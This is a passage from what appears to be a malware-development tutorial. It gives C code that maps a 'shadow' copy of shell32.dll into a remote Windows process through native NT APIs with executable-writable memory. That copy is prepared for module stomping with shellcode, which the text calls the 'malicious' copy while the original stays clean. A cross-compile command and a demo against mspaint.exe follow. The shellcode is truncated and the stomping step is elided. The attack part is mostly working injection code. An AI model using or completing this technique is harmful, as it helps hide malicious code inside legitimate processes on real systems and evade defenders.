#define TARGET_DLL  L"C:\\Windows\\System32\\shell32.dll"

// ... (the structures and types are the same as in your code) ...
typedef NTSTATUS(NTAPI* fnNtCreateSection)(OUT PHANDLE, IN ACCESS_MASK, IN POBJECT_ATTRIBUTES OPTIONAL, IN PLARGE_INTEGER OPTIONAL, IN ULONG, IN ULONG, IN HANDLE OPTIONAL);
typedef NTSTATUS(NTAPI* fnNtMapViewOfSection)(IN HANDLE, IN HANDLE, IN OUT PVOID*, IN SIZE_T, IN SIZE_T, IN OUT PLARGE_INTEGER OPTIONAL, IN OUT PSIZE_T, IN SECTION_INHERIT, IN ULONG, IN ULONG);
typedef NTSTATUS(NTAPI* fnNtCreateThreadEx)(PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PPS_ATTRIBUTE_LIST);

// helper function for finding the original address of a DLL in a remote process
PVOID GetRemoteModuleBase(DWORD pid, const char* modName) {
  HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE | TH32CS_SNAPMODULE32, pid);
  if (hSnap == INVALID_HANDLE_VALUE) return NULL;
  MODULEENTRY32 me;
  me.dwSize = sizeof(me);
  if (Module32First(hSnap, &me)) {
    do {
      if (_stricmp(me.szModule, modName) == 0) {
        CloseHandle(hSnap);
        return (PVOID)me.modBaseAddr;
      }
    } while (Module32Next(hSnap, &me));
  }
  CloseHandle(hSnap);
  return NULL;
}

int findMyProc(const char *procname) {
  HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;
  PROCESSENTRY32 pe;
  pe.dwSize = sizeof(PROCESSENTRY32);
  if (Process32First(hSnapshot, &pe)) {
    do {
      if (strcmp(procname, pe.szExeFile) == 0) {
        CloseHandle(hSnapshot);
        return pe.th32ProcessID;
      }
    } while (Process32Next(hSnapshot, &pe));
  }
  CloseHandle(hSnapshot);
  return 0;
}

// shellcode (MessageBox)
unsigned char rawData[] = "\x48\x83\xEC\x28..."; // our shellcode

int main(int argc, char* argv[]) {
  if (argc < 2) { printf("usage: %s <process name>\n", argv[0]); return -1; }

  int pid = findMyProc(argv[1]);
  if (pid == 0) { printf("process not found\n"); return -1; }

  // get original address of shell32.dll
  PVOID originalBase = GetRemoteModuleBase(pid, "shell32.dll");
  printf("original shell32.dll base in remote process: 0x%p\n", originalBase);

  HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
  fnNtCreateSection pNtCreateSection = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
  fnNtMapViewOfSection pNtMapViewOfSection = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
  fnNtCreateThreadEx pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);
  HANDLE hFile = CreateFileW(TARGET_DLL, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    
  HANDLE hSection = NULL;
  pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
  CloseHandle(hFile);

  // mapping second shadow copy. 
  // We pass NULL to BaseAddress, the OS MUST select a free space.
  PVOID uMappedModuleRemote = NULL; 
  SIZE_T sViewSize = 0;
  NTSTATUS STATUS = pNtMapViewOfSection(hSection, hProcess, &uMappedModuleRemote, 0, 0, NULL, &sViewSize, ViewShare, 0, PAGE_EXECUTE_READWRITE);

  if (!NT_SUCCESS(STATUS)) {
    printf("NtMapViewOfSection failed: 0x%0.8X\n", STATUS);
    return -1;
  }

  printf("SUCCESS! shadow copy mapped at: 0x%p\n", uMappedModuleRemote);

  if (uMappedModuleRemote == originalBase) {
    printf("error: addresses are the same! this shouldn't happen with SEC_IMAGE if NULL is passed.\n");
  } else {
    printf("addresses are DIFFERENT. Technique is working.\n");
  }

  // --- then get EntryPoint and do stomping logic ---
  // ...
  return 0;
}
```

### demo

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Let's check on `mspaint.exe` again:   

    

First original `shell32.dll` address is: `0x00007ffd37390000`.    

Then shadow copy mapped on different address: `0x0000015623e50000`

    

    

     

    

On the `Memory Map`:     

    

    

Then move to the entry point address `0x0000015623f63d80`:     

    

    

Bytes before stomping logic:    

    

After stomping:    

     

    

If we do comparison: press `Ctrl+G` and enter `shell32.dll`. This will take you to the original library. Make sure its code remains intact. This is the essence of Double Loading - **the original is clean, and your copy is "malicious, with shellcode."**     

    
